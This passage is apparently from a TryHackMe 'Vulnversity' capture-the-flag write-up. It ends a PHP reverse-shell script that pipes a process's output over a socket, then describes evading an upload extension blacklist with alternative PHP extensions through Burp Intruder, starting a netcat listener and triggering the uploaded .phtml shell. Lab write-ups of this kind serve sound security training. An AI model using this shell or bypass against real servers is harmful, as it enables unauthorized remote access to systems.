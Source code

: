 ```php
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```
- Edit the ip address and port according to your tun0 ip and desired port number. Let's save the file as revshell.php and try to upload it in the form. 
- Unfortunately I got `extension not allowed` error. So there must be a black list of extensions that are not allowed to upload and `.php` is one of them.
- We have plenty of other possible extensions for php files that can help us bypass the blacklist. 
    - .php
    - .php3
    - .php4
    - .php5
    - .phtml
- this time let's capture the request using burp and send the reverse shell using above extensions one by one using intruder.
- After the attact, our reverse shell was succesfully uploaded with extension .phtml. Now let's run our netcat listener `nc -lnvp 1234` and then try to access and execute the reverse shell.
- going to /internal/uploads/revshell.phtml executes our reverse shell and we get a shell on our netcat listener.
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/vulnversity/user_flag.png)
